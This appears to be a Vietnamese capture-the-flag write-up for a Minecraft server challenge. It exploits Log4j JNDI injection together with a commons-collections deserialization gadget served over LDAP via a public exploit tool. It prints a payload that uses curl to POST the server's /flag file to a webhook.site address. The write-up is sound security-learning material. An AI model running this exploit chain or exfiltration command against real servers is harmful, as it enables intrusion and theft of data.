 # Solution


Bài viết gốc có thể xem tại [đây](https://hackmd.io/@taidh/Bk94PZjt9).

Mình mới học về log4j cách đâu 2 ngày nhưng may thay được dịp gặp được cái chall về nó nên sẽ viết về solution mà chủ yếu từ wu của một đàn anh.

Server cho một file `server_1.15.jar` và để ta có thể dùng `tlauncher` để debug local.
Nhờ vào decription của tác giả ta có thể lên mạng tìm một version khác của nó để check sự khác biệt (mình có tải sẵn ở [đây](https://github.com/to016/CTFs/blob/main/2022/KMACTF/mineme/mineme/app/server.jar) )

Dùng intellij idea để kiểm tra sự khác nhau của 2 `.jar` file

![diff](https://user-images.githubusercontent.com/77546253/174476296-12876d99-e575-46ac-b33a-ce20413a2d12.png)


Ta có thể thấy bên file của đề có sử dụng `collections` và cũng có rất nhiều gadget chain phổ biến với nó. Việc còn lại là set up một ldap server để có thể transfer serialized data. Cách này vừa có thể giúp ta khai khác log4j + deserialization vừa bypass được các version mới của jdk. Có thể dùng tool [này](https://github.com/WhiteHSBG/JNDIExploit).

![log4j_exploitable](https://user-images.githubusercontent.com/77546253/174476309-7bd4b92a-78ad-47ed-a001-fc3f6b97b512.png)

Đầu tiên ta thử ở local với command `calc.exe`

![local_test](https://user-images.githubusercontent.com/77546253/174476297-de034404-4216-41d1-bba7-9086bbe830f9.png)



OK giờ thử trên server của giải: `149.28.135.96:13337` với payload: `curl -X POST -d @/flag https://webhook.site/ac119b03-212f-443a-aca6-5e230bfc7544`

Encode payload:

![encode_payload](https://user-images.githubusercontent.com/77546253/174476303-a41d0b56-c1f5-489d-8518-d2be2dbe0da0.png)


Kết quả:

![flag](https://user-images.githubusercontent.com/77546253/174476325-e02aa983-a592-43be-babe-f571a0cba74f.png)





